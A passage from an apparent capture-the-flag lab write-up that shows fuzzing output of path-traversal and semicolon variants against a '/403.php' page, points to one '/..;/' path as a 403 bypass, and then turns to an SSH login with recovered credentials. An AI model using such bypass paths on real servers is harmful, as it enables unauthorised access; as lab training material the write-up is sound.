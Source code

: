 ```
Response Code: 200      Length: 2563    Path: /403.php/%2e%2e
Response Code: 200      Length: 2563    Path: /403.php/%2e%2e/
Response Code: 200      Length: 2563    Path: /403.php/..
Response Code: 200      Length: 2563    Path: /403.php/../
Response Code: 400      Length: 306     Path: /403.php/../../
Response Code: 400      Length: 306     Path: /403.php/../../../
Response Code: 200      Length: 2563    Path: /403.php/../../..//
Response Code: 200      Length: 2563    Path: /403.php/../..//
Response Code: 400      Length: 306     Path: /403.php/../..//../
Response Code: 400      Length: 306     Path: /403.php/.././../
Response Code: 200      Length: 2563    Path: /403.php/../.;/../
Response Code: 200      Length: 2563    Path: /403.php/..//
Response Code: 200      Length: 2563    Path: /403.php/..//../
Response Code: 400      Length: 306     Path: /403.php/..//../../
Response Code: 200      Length: 2563    Path: /403.php/../;/../
Response Code: 200      Length: 917     Path: /403.php/..;/
Response Code: 200      Length: 2563    Path: /403.php//../../
```
as you can see we have different length `Response Code: 200      Length: 917     Path: /403.php/..;/` I just found this bypass which I think is a bit strange and confusing. however this is a challange and we must solve it :D. 

![img](/assets/thm_en-pass/bg_9.jpeg)

## Gaining access

### User

now we got a username, so we have username and password for key lets jump in to ssh : 

![img](/assets/thm_en-pass/bg_10.jpeg)
